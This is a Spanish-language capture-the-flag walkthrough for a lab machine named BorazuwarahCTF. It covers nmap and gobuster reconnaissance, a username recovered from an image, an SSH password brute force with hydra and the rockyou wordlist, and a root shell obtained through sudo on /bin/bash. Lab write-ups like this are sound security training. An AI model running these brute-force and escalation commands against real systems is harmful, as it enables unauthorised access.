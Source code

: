 # BorazuwarahCTF
![image](https://github.com/user-attachments/assets/30562465-cc76-411d-9c42-d8cf6859c980)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
Como tenemos abierto el puerto 22 y 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDuOdJLZN+CNU+7dcTJQbPr6zY2+Ou1YFR0w9Pan1DfaPUZljRHJcNmvSncrihzQ3HOAHfMWWvSzN+ZMC0YmWoA=
|   256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGDv2JqKvBCR+Badmkr7YKPypEYshuCXxzM5+YdozyBD
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Utilizamos **gobuster** para hacer fuzzing y ver si encontramos directorios o páginas en el puerto 80.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
Encontramos únicamente ***index.html*** en la que únicamente vemos una imagen que procedemos a descargarla para ver si encontramos algo oculto dentro.

![image](https://github.com/user-attachments/assets/0e4abfa4-931c-40b0-800f-7d2921f4f966)

Vemos que dentro de la imagen encontramos un usuario **borazuwarah** que podemos utilizar para conectarnos por ***ssh*** por fuerza bruta con **hydra**.

## Explotación.

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![image](https://github.com/user-attachments/assets/d8d5ad7e-5e8c-4f21-8be9-3631844b1349)

Ahora nos conectamos por **ssh** con las credenciales obtenidas.

![image](https://github.com/user-attachments/assets/481a1e42-2d48-4fe3-b56f-4b320d8b4942)

## Escalada de privilegios.

Comprobamos si hay algún binario que podamos explotar y nos encontramos que podemos ejecutar como **root** una **/bin/bash**.

![image](https://github.com/user-attachments/assets/65af5a3f-6ad7-4ca0-bc70-fdcf3049cd2a)

```
sudo -u root /bin/bash
```
![image](https://github.com/user-attachments/assets/84a75270-1f2a-4748-8eb0-6f194110f104)





